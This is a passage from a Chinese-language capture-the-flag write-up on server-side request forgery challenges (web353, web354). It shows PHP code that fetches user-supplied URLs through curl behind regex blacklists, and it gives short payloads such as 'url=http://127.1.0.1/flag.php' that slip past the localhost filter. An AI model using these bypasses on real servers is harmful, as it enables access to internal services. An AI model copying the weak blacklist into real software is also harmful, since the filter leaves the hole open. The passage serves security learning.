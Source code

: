 第7行对post参数进行了过滤，但是有个小问题，就是他的过滤没有转义

`payload：url=http://127.0.0.1/flag.php`

## web353

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?>
```

用127.1等绕过就行

`payload：url=http://127.1.0.1/flag.php`

## web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```
